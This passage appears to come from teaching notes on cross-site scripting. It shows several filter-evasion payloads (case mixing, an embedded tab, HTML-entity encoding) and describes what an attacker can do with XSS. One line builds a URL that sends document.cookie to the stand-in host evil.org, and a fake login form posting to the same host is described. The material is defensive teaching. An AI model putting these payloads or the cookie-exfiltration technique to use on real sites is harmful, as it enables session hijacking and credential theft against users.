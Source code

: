 ```html
<IMG SRC="javascript:alert('XSS');">
```

ah, maybe we look for javascript:

```html
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

ok, I can make it case sensitive:

```html
<IMG SRC="jav ascript:alert('XSS');">
```

(this has an embedded tab but still works).  Ok I can get rid of whitespace
before I scan.

```html
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

(the code is written as escaped characters).  Give in yet? (For more ways that
can be used to defeat filters see the [OWASP XSS Filter Evasion Cheat
Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)).

So while it is possible to filter HTML to sanitise user input it is very
difficult to pick up all of the many ways that Javascript code can be included
in a page.  All it takes is one way in and the attacker has full control of the
page on another user's system.

### Attacks with XSS

Once I am able to mount an XSS attack and load some Javascript into the page,
what can I do that is truly evil?  

**Capture cookies** Javascript has access to cookies for the page it is running
in, if that is something like Facebook or Ebay there is potential value in being
able to impersonate a user and so having their cookies would allow me to do
that.  I can use Javascript to construct a URL like
`'http://evil.org/cookiecapture?cookies='+document.cookie` and then set
`document.location` to this URL, the browser will immediately request this URL
and I would be able to capture their cookies _for the site I had infected_.  

**Password Capture** since Javascript can modify the entire page, I could
replace the current page with HTML designed to look like the login page for the
site but with the login form directed to `http://evil.org/passwordcapture`.  The
user thinks they have just been logged out, enters their login details (the URL
still says they are on the social media site) and they are sent to my site. My
site redirects back to the original page and the user doesn't know they've lost
their details.  I can then login as them at leisure.

**Make purchases** if this is a commerce site and I've infected the reviews
section of the site, then the user might be authenticated on the site and if I'm
lucky have a credit card registered for purchases.  My Javascript code could
make a request to purchase something from the site by submitting the right
combination of forms.  It might be possible to have them delivered to my address
or I might just want to annoy the user by racking up large purchases on their
credit card.
